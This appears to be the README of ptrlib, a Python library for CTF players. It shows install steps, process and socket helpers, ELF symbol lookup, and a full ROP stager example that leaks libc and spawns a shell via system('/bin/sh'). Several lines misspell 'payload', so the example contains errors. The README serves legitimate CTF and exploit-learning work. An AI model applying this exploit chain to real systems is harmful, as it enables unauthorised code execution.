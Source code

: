 ptrlib
====

Python library which bundles security-related utilities.

## Description
Ptrlib is a Python library for CTF players.
It's designed to make it easy to write a complex program of cryptohraphy, networking, exploit and so on.

## Requirement
Supports: Python 3.7
Library Dependency: gmpy2

Install GMP library by running
```
$ apt-get install libgmp-dev
```

## Usage
Basic examples are available at [/examples](https://bitbucket.org/ptr-yudai/ptrlib/src/master/examples/).

## Quick Document
There are many functions in ptrlib but let's see how to use it for pwn.
You can run executable or create socket like this:
```python
sock = Process("./pwn01")
sock = Process(["./pwn01", "--debug"])
sock = Socket("localhost", 1234)
```
If you have the target binary or libc, it's recommended to load the binary first.
```python
elf = ELF("./pwn01")
libc = ELF("./libc.so.6")
```
And you can use useful methods such as `got`, `plt`, `symbol`, `section` and so on.
The following is the pwn example of ROP stager.
```python
got_puts = elf.got("puts")
plt_puts = elf.plt("puts")
plt_gets = elf.plt("gets")
stage2 = elf.section(".bss") + 0x400

payload = b'A' * 0x108
payload += p64(rop_pop_rdi)
payload += p64(got_puts)
payload += p64(plt_puts)
payload += p64(rop_pop_rdi)
payload += p64(stage2)
payload += p64(plt_gets)
paylaod += p64(rop_pop_rbp)
paylaod += p64(stage2)
payload += p64(rop_leave_ret)
sock.sendlineafter("Data: ", payload)

libc_base = u64(sock.recvline()) - libc.symbol("puts")
logger.info("libc base = " + hex(libc_base))
payload = b'A' * 8
paylaod += p64(rop_pop_rdi)
payload += p64(libc_base + next(libc.find("/bin/sh")))
payload += p64(libc_base + libc.symbol("system"))
sock.sendline(payload)

sock.interactive()
```

## Install
Run `pip install ptrlib` or `python setup.py install`.

## Licence

[MIT](https://github.com/tcnksm/tool/blob/master/LICENCE)

## Author

[ptr-yudai](https://github.com/ptr-yudai)